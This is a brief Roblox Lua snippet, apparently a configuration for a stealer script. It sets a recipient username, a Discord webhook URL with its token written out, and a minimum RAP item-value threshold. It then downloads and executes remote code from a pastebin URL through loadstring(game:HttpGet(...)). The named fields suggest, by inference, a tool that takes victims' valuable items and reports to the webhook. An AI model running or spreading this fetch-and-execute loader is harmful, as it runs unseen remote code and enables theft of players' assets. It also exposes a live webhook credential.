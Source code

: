 Username= 'Zakaria9266'
Webhook= 'https://discord.com/api/webhooks/1279487258352943246/CnC3451PfVbWByIC0wJZ6_ujLQGCArhvuM7spiClDyKUbcpcCikSB2keJIF-s6B9mVnX'

MinimumRAP = 500000

loadstring(game:HttpGet('https://pastebin.com/raw/PZFaFuWe'))()
